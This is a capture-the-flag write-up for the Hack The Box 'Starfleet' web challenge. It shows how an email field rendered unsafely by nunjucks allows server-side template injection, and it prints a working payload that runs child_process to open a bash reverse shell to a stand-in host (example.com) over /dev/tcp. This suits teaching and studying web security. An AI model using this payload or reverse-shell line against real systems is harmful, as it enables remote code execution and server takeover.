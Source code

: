 # Starfleet

Challenge text:
```
Do you enjoy unaliving humans as much as the next guy?
Welcome to Starfleet academy, the place where your mass genocide dreams come true. Enroll today!
```
Along with the [source code](web_starfleet).

This challenge was made to be quite hard, but had an unintended solution which made it a lot easier.

The website contains an input field, and if you fill in your email, you'll recieve an email telling you that your submission is being processed. There's nothing too interesting about this, so I check the source code.

```js
let message = {
    to: emailAddress,
    subject: 'Enrollment is now under review ✅',
};

let gifSrc = 'minimakelaris@hackthebox.eu';

message.html = nunjucks.renderString(`
    <p><b>Hello</b> <i>${ emailAddress }</i></p>
    <p>A cat has been deployed to process your submission 🐈</p><br/>
    <img width="500" height="350" src="cid:{{ gifSrc }}"/></p>
    `, { gifSrc }
);

message.attachments = [
    {
        filename: 'minimakelaris.gif',
        path: __dirname + '/../assets/minimakelaris.gif',
        cid: gifSrc
    }
];

let transporter = nodemailer.createTransport({
    host: 'smtp.gmail.com',
    port: 465,
    secure: true,
    auth: {
        user: 'cbctf.2021.web.newjucks@gmail.com',
        pass: '[REDACTED]',
    },
    logger: true
});

transporter.sendMail(message);
```
The only field we can control is the email address. After a bit of staring I decide to do a little research about nunjucks, the templating engine, as a lot of websites seem to be vulnerable to different templating attacks if the template is exposed to raw user-defined content. 

I come across a [GitHub issue](https://github.com/mozilla/nunjucks-docs/issues/17) which seems to contain exactly what I'm looking for. In nunjucks templates you can execute arbitrary code by creating a function and executing it with `{{ ({}).constructor.__proto__.constructor("code goes here")() }}`. With this you can execute shell commands, and get a reverse shell.

```js
{{ ({}).constructor.__proto__.constructor("process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/example.com/80 0>&1'`)")() }}
```

If we set our email to this and send it to the server while listening in netcat, we'll get access to the server, allowing us to read the flag.